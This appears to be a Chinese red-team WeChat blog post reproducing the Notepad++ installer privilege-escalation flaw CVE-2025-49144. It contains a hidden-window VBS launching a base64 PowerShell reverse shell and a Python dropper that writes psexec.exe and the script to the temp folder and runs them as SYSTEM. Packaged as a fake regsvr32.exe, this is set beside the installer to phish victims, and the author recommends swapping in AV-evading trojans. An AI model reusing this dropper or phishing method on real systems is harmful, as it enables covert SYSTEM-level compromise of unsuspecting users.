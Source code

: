 #  [CVE-2025-49144] 超详细复现notepad++提权漏洞  
原创 红队安全圈  红队安全圈   2025-06-27 03:05  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2K9ohfEv3JP2mYJZmoFqadibP2NXm4ndPJ4BsaJLtbVvtsl3EYw8feSrIAFDTC9v6MaWm7MfNzJExg/640?wx_fmt=png&from=appmsg "")  
  
上一篇文章中简述了 notepad++ 的提权漏洞**CVE-2025-49144**  
，有师傅复现的时候遇到点疑问，这里详细写一个钓鱼并提权到 system 的复现过程  
  
   
  
> ⚠️ 免责声明：本公众号分享的技术方案仅用于  
  
✅ 合法授权的测试研究  
  
✅ 防御技术提升学习  
  
✅ 使用者造成的一切后果与作者无关  
  
禁止用于任何违反《网络安全法》及地方法规行为，使用者需对自身行为负全部法律责任  
  
  
   
### 前情提要和逆向分析  
  
6月24日看到POC发布者的文章后，立即进行了复现，当时作者是并未在GitHub发布POC，而是引导在谷歌网盘下载（现在已删除，只剩下一共演示视频，文章也被屏蔽）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2KASA1C9vkOCkY5aR4XkA9NicArwqicic5rwx6pJsDpWFic8URdbCxHXpdIs6vf1anwW0ibosoxqAeK3dA/640?wx_fmt=png&from=appmsg "null")  
  
  
以下是删除之前在网盘下载的POC，并非开源代码而是exe，来源不明的PE文件不要随便运行  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2KASA1C9vkOCkY5aR4XkA9N7fzqbia4Hfxk2IYPCeMNQfAOJLC26QxNyQhbHltnQ95TYYQFyDXbd3w/640?wx_fmt=png&from=appmsg "null")  
  
  
图标是 pyinstaller 打包的默认图标，那他源码是 python 写的，PY的反编译很简单，花了一点点时间🤏逆向出源码如下  
1. 1. 有一段很大的 base64，他是一个反弹shell的 exe 文件编码后的  
  
1. 2. 脚本检测了当前用户的temp目录下是否存在 shell.exe 文件  
  
1. 3. 运行 exe 进行反弹 shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2KASA1C9vkOCkY5aR4XkA9NYbofETTdve6SKQqbIHGMP1iapicFhws3zAOohZf7qFOPd3ltcgTCOE8Q/640?wx_fmt=png&from=appmsg "null")  
  
  
在虚拟机运行后发现果然在temp目录释放了 psexec.exe 和 shell.exe 两个文件，前者是用来获取system会话，后者是木马文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2KASA1C9vkOCkY5aR4XkA9NibPNsTViaictBbAfsRkjgbj12NGKiaibibX9PAOqv0KTy05b7mPicFVx1jo6g/640?wx_fmt=png&from=appmsg "null")  
  
  
因此整体思路就明了了  
- • 1️⃣运行notepad++安装程序  
  
- • 2️⃣由于8.8.1版本的漏洞，导致加载了同目录下的 regsvr32.exe 文件  
  
- • 3️⃣regsvr32.exe 释放 psexec 和木文件  
  
- • 4️⃣psexec获取system会话，并使用system会话拉起木马文件  
  
- • 5️⃣最终木马以system权限运行起来  
  
原作者在github发布的漏洞文章，却引导读者去网盘下载POC，运行后隐藏到临时目录，并且现在也删除了原文和网盘，有点微妙🤔  
  
不过对于我们红队钓鱼来说确实是一个不错的范本，下面开始我的正式复现  
### 详细复现  
##### 准备好木🐎文件  
  
我这里以简单的反弹shell为例（实战中换成自己的木🐎并做好免杀），在  
revshells.com  
生成一个 powershell base64 的反弹命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2KASA1C9vkOCkY5aR4XkA9NACaUV5tDt5osKwHxGowk3xoTT93ibJmZf1Y5EgpICYbq5rian0j96x0g/640?wx_fmt=png&from=appmsg "null")  
  
  
反弹命令添加到如下vbs脚本中，这样处理运行时可以隐藏黑色命令行窗口  
```
Set WshShell = CreateObject("WScript.Shell")WshShell.Run "powershell -e JABjAGwAa......ADpAA==", 0
```  
##### base64 编码  
  
把这个vbs脚本和psexec.exe两个文件分别base64编码，这里直接在kali中完成即可，**-w 0**  
 参数禁止换行  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2KASA1C9vkOCkY5aR4XkA9N1SKVVhYeY0Atq4DHY99XvLdhpUjAv5EibmTfRTEcwapSuYLhvXxXZeg/640?wx_fmt=png&from=appmsg "null")  
  
##### 修改 EXP  
  
然后把这两段base64复制到如下python脚本中的两个变量中  
```
import base64import osimport tempfileimport subprocessimport sys# base64编码后的exe文件psexec_base64 = "TVqQAA/+lDlzEJgLTf......G74JycgAA"revshell_base64 = "U2V0IFdzaFNoZWxs......iLCAw"defprint_banner():    print("""    ┌──────────────────────────────────────┐    │       微信公众号 · 红队安全圈           │    └──────────────────────────────────────┘    """)# 执行命令，禁止出现黑色弹窗defrun_hidden(command):    if sys.platform == 'win32':        '''        由于安全原因，请在公众号后台回复 CVE-2025-49144 获取完整python脚本        '''    else:        subprocess.run(command, shell=False)# 解码并输出到用户temp目录defrestore_exe(exe_base64,outname):    temp_dir = tempfile.gettempdir()    exe_path = os.path.join(temp_dir, outname)    try:        exe_data = base64.b64decode(exe_base64)        withopen(exe_path, 'wb') as f:            f.write(exe_data)        #print(f"restore file to: {os.path.abspath(exe_path)}")        returnTrue    except Exception as e:        #print(f"restore error: {e}")        returnFalseif __name__ == '__main__':    # 将base64编码的exe文件还原并释放到tmep    restore_exe(psexec_base64,outname='psexec.exe')    restore_exe(revshell_base64,outname='revshell.vbs')    # psexec 调起 system 权限的 wscript 执行 vbs 脚本    run_hidden([        os.path.join(tempfile.gettempdir(), 'psexec.exe'),        '-i', '-s', '-d',        'wscript.exe',        os.path.join(tempfile.gettempdir(), 'revshell.vbs'),        '-accepteula'    ])
```  
##### 打包成 exe  
  
最后把python脚本打包，并命名为 regsvr32.exe，记得要加上**-w**参数隐藏控制台  
```
pyinstaller -F 1.py -w -n regsvr32.exe
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2KASA1C9vkOCkY5aR4XkA9Nt5Y7ETxWMkFP42wrTGCRxm1jYBicSbzZ6BXANjtsnWyYVuvibtE4RxUA/640?wx_fmt=png&from=appmsg "null")  
  
##### 社工钓鱼上线 system  
  
最后把 regsvr32.exe 和 notepad++安装包放在同一个目录，攻击机开启监听，引导目标下载并执行安装程序，即可弹回system权限的shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2KASA1C9vkOCkY5aR4XkA9NryCibuxiakQ1VrUYcDgIibLFSOlZD4R2Z9zhf6NFaZHdWpNpiaoK1t0chg/640?wx_fmt=png&from=appmsg "null")  
  
  
欢迎关注   
红队安全圈  
  
回复   
CVE-2025-49144  
 获取完整脚本  
  
  
师傅给个   
一键四连 吧😄  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/5HsgFkdwV2J3Ykl5xDepRoqkSBlQKAEIEx0DHiaQHx6sBYGNDAI6Eia2ZnZLLsHzD8yxEGEVbrzzTL4Shrf7iaWWw/640?wx_fmt=gif&from=appmsg "")  
  

